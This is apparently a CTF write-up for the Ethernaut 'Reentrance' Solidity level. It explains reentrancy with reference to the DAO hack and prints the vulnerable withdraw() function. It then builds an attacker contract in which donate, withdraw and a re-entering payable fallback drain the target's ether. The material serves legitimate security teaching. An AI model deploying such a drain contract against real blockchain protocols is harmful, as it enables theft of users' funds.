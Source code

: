 # Ethernaut Walkthrough: Re-entrancy
## Welcome to KweenBirb's 11th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Reentrance.sol, the 11th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in this directory. Let's begin!

In this challenge, Ethernaut instructs us 'to steal all the funds from the contract.' Not at all befitting the white hat hackery we're supposed to be learning! Sometimes you have to learn the hard way, I guess.

## On the history of reentrancy

Reentrance exploits litter the history of programmable blockchains, dating all the way back to the big $60 million DAO hack that happened in 2016. At the time, I recall online forums and communities like reddit being ablaze with misunderstanding and FUD about its implications. Many in the (admittedly, less informed) bitcoin community thought it was the end of Ethereum- despite it having just launched! Here's a great blog post on the DAO hack:

https://blog.chain.link/reentrancy-attacks-and-the-dao-hack/

Other notable hacking incidents involving reentrance hacks affected protocols like Uniswap (2020), Cream Finance (2021), Synthetix (2019), and SpankChain (2018). Thankfully we've learned a lot about smart contract security in the years following and agreed upon a code pattern to defend against it.

## What is reentrancy?

Reentrant exploits are a pattern of code execution that involve two main factors:
1. an external call to an untrustworthy contract
2. an action that is executed before its effect on state is updated

This pattern reappears in many different forms but at the highest, most abstract level those are the two factors that are required. This is because when the external call to an outside contract is made (1.), execution context is handed to that contract! It can then maliciously 're-enter' by injecting ANOTHER call of the same function, which then restarts the process and starts a loop!

However, this vulnerability is blocked if the original contract updates its state with the effect of the external call BEFORE the external call is actually executed. Confused? Let's move on from the abstraction.

## Time to get concrete

Looking over the Ethernaut instance contract, we see that the scenario I just described is present. There's an external call in the withdraw() function that happens 4 lines BEFORE that call's effect on state is updated:

```
function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
}
```

This contract is vulnerable to reentrancy! Maybe that's why Ethernaut named it Reentrance. Lol.

Our goal then is to call the withdraw function from our own malicious contract, instigating this call:

```(bool result,) = msg.sender.call{value:_amount}("");```

back to our contract, which will need a payable fallback function to both accept the ether sent and re-enter by initiating another call to the instance's withdraw() function.

To do so, let's begin by implementing the initial call:

```
function steal() public {
    reentrance.withdraw( amount );
}
```

And then implement the fallback function that will continuously re-enter by initiating another withdraw():

```
fallback() external payable {
    reentrance.withdraw( amount );
}
```

Keep in mind that the fallback must be payable as it will be receiving the ether amount (which we will next specify in storage).

That's pretty much it as far as the reentrance exploit goes. Short and sweet, huh?

But wait! We forgot something. Before we can withdraw at all, we need to satisfy the balances[msg.sender] check in the withdraw() function:

```if(balances[msg.sender] >= _amount)```

To do so, we can raise our balance in the instance's storage mapping by giving our contract a way to use the handy deposit() function provided by Ethernaut.

```
function give() public {
    address to = address(this);
    reentrance.donate{ value: amount }(to);
}
```

All that's left before we execute our first reentrance hack is to specify the target and an amount of our choosing to donate and subsequently steal. There are of course many ways to do so but here's an example using an interface and convenient amount, all taken from the Solution.sol contract in this directory:

```
interface Reentrance {
    function donate(address _to) external payable;
    function balanceOf(address _who) external returns (uint);
    function withdraw(uint _amount) external;
}

contract Reenter {
    Reentrance reentrance;
    uint amount = 500000000000000;

    constructor(address $your_ethernaut_instance_here) payable {
        reentrance = Reentrance($your_ethernaut_instance_here);
    }

    // give, steal, and fallback functions 
}
```

Hack away, frens! h00t h00t
